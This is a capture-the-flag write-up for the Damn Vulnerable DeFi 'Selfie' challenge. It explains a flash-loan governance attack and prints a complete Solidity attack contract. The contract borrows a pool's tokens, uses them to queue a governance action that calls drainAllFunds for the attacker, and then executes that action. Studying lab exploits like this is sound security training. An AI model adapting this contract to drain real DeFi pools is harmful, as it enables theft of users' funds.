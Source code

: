 - - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: Selfie
### Challenge description:
    A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

    Wow, and it even includes a really fancy governance mechanism to control it.

    What could go wrong, right ?

    You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

### Challenge category => so users know the chall’s field
### Challenge points => so users know the chall’s difficulty


In this challenge, we must drain all ETH from Governance pool. According to `_hasEnoughVotes()` function, it is possible to make any action queue if we have more than half of governance token. Since we utilize flash loan of governance token, we can make action queue to call `drainAllFunds()` function. Here is attack contract:

```solidity
contract AttackTheSelfiePool {

    address public selfiePool;
    address public liquidityToken;
    address public simpleGovernance;
    address public attacker_owner;

    uint256 actionId;

    constructor(address _selfiePool, address _damnValuableTokenSnapshot, address _simpleGovernance) {
        selfiePool = _selfiePool;
        liquidityToken = _damnValuableTokenSnapshot;
        simpleGovernance = _simpleGovernance;
        attacker_owner = msg.sender;
    }

    function attackTheSelfiePool() public {
        uint256 borrowAmount = DamnValuableTokenSnapshot(liquidityToken).balanceOf(address(selfiePool));
        SelfiePool(selfiePool).flashLoan(borrowAmount);
    }

    function receiveTokens(address token,uint256 borrowAmount) public {
        DamnValuableTokenSnapshot(liquidityToken).snapshot();

        bytes memory data = abi.encodeWithSignature("drainAllFunds(address)", tx.origin);
        actionId = SimpleGovernance(simpleGovernance).queueAction(selfiePool, data, 0);
        DamnValuableTokenSnapshot(liquidityToken).transfer(msg.sender, borrowAmount);
    }

    function executeAction_governance() public payable{
        SimpleGovernance(simpleGovernance).executeAction(actionId);
    }
}
```
